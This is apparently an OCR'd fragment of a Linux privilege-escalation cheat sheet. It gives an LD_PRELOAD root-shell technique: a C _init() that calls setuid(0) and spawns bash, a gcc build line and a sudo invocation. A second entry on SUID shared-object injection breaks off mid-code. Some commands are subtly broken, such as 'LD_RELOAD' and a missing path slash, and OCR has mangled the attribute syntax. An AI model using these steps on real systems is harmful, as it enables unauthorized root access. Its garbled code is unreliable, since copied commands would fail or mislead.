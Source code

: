 Local Admin: Yes

OS: Linux

Type: Injection

Methods:

\#include \<stdio.h\>

\#include \<sys/types.h\>

\#include \<stdlib.h\>

1\. void \_init() {

unsetenv(\"LD_PRELOAD\");

setgid(0);

setuid(0);

system(\"/bin/bash\");

}

2\.

gcc -fPIC -shared -o /tmp/ldreload.so ldreload.c -nostartfiles

3\.

sudo LD_RELOAD=tmp/ldreload.so apache2

4\.

id

<a name="abusing-file-permission-via-suid-binaries-so-injection"></a>
# Abusing File Permission via SUID Binaries - .so injection) 

Domain: No

Local Admin: Yes

OS: Linux

Type: Injection

Methods:

1\.

Mkdir /home/user/.config

2\.

\#include \<stdio.h\>

\#include \<stdlib.h\>

static void inject() \_attribute \_((constructor));
